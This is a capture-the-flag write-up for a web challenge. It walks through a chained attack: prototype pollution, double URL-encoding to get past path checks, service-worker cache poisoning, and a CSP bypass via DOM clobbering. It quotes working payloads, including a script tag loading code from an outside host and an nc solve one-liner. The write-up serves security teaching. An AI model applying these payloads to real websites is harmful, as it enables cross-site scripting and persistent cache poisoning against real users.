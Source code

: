 # Under Construction Revenge

This challenge involves multiple gadgets, so I'll briefly outline the full exploit chain:

1. The user-provided query string is "safely" JSON reflected in a `<script>` tag.
2. This JSON is then retrieved and merged with a default config ([initDefaultData](./src/challenge/build/src/utils.js)) using the [deepMerge](./src/challenge/build/src/utils.js) function.
3. Even if the [deepMerge](./src/challenge/build/src/utils.js) function verifies `__proto__` and `constructor`, it is possible to get a prototype pollution by providing `?debugLevel=__proto__`. Then, to control what is going to be written into proto, we need to abuse that JS `new URLSearchParams.prototype.get` takes the first param occurrence, while PHP `json_encode` takes the last one. For example: `?debugLevel=__proto__&debugLevel[polluted]=true`.
4. Thanks to this prototype pollution, it is possible to pollute the fetch options in [main.js](./src/challenge/build/src/utils.js).
5. Before diving further into the prototype pollution, several other gadgets must be found:
    - The [sw.js](./src/challenge/apache/sw.js) caches everything under `/c/static`.
    - The [security.lua](./src/challenge/haproxy/security.lua) decodes the path and overwrites the current path if no `..` has been found.
    - The `location /c/` directive of [nginx.conf](./src/challenge/nginx/nginx.conf) decodes the path one more time when doing `rewrite ^/c/(.*)$ /$1 break;`.
    - Finally, the [sw.js](./src/challenge/apache/sw.js) recreates a `Response` object using only `res.headers` and `res.body` before caching it.
6. Thanks to the previously listed gadgets, several things can be done:
    - Bypassing the `..` protection by encoding it twice.
    - Accessing `/c/static/xss/%252E%252E%2F%252E%252E%2Findex.php` will return the same page as `/c/`.
    - We can force the service worker to cache non-`200 OK` responses like `206 Partial Content` :)
7. At this point, by:
    - Registering the service worker on `/c/`.
    - Going to `/c/?debugLevel=__proto__&debugLevel[headers][Range]=bytes=100-200&debugLevel[loggingPath]=/c/static/xss/%25252E%25252E%252F%25252E%25252E%252Findex.php%23` (`%23` at the end is required to remove any extra get params in the cache key) to force the `206 Partial Content` to be cached.
    - Then, going to `/c/static/xss/%252E%252E%2F%252E%252E%2Findex.php`.
    - You should see something like:

![range.png](./.github/range.png)

8. Now, you need to find a way to control HTML output. This can be done by slicing the response at the beginning of the user input in the JSON (you won't be able to close any tag due to `json_encode`).
9. Now, the next step is to bypass the CSP `Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'strict-dynamic'; style-src 'self'; img-src 'self'; object-src 'none'; base-uri 'none'; connect-src 'self'; frame-src 'self'`. The key here is the `strict-dynamic`, which allows any trusted script to inject any script without a nonce.
10. To leverage that, it is required to "bypass" the following webpack issue: https://github.com/webpack/webpack/security/advisories/GHSA-4vvj-4cpr-p986 (this can be found thanks to the `_comment` in [package.json](./src/challenge/build/package.json)). Actually, the fix does not trust `document.currentScript` if the `nodeName` isn't `SCRIPT` in case it gets clobbered. It uses the source of the last script on the page as the loading source. Thus, to get an XSS it is required to:
    - Clobber `currentScript` using `<img name="currentScript">`.
    - Find a way to get our input falling below the last script tag.
11. This can be done using the `<table>` element, which "moves disallowed elements before" (https://sonarsource.github.io/mxss-cheatsheet/). Based on that, the following payload does the job: `<table><img name="currentScript"><script src="https://mizu.re">`. (The script is closed by the truncated script it is injected into :p)
12. The last thing to do is to find a way to make the XSS persistent on `/flag`, as the bot isn't authenticated when it visits its own link and only goes to `/flag` afterward. To do so, we need to abuse two things:
    - Nginx allows encoding the last `/` for any directive like `location /a/`.
    - We can URL encode this `/` twice thanks to the [security.lua](./src/challenge/haproxy/security.lua).
    - The Cache API used by the service worker is exposed on `window`, too, allowing poisoning of `/flag` :p
13. Thanks to this, it is possible to register the following service worker: `navigator.serviceWorker.register("/c%252Fsw.js", { scope: "/" })`. The `%252F` is mandatory because `%2F` and `%5C` are banned characters in the `.register` path ([ref](https://chromium.googlesource.com/chromium/src/+/493412af1482220d43ae3dce390ed09617b2d95a/content/common/service_worker/service_worker_utils.cc#17)).
14. The last thing to do is to clear the Cache API when the XSS is triggered on `/flag` (or using a `?xx`) to get the flag 🎉

The whole exploitation script is available in the [solve](./solve/) folder. If you want to run it quickly, you can use the following one-liner:

```bash
echo "http://mizu.re:8001/ctf-solutions/heroCTFv6-ac0247d4ebdc9b/index.html?start#http://underconstruction_revenge_web:8000" | nc localhost 55555
```

![solve_1.png](./.github/solve_1.png)
![solve_2.png](./.github/solve_2.png)
![solve_3.png](./.github/solve_3.png)
![solve_4.png](./.github/solve_4.png)
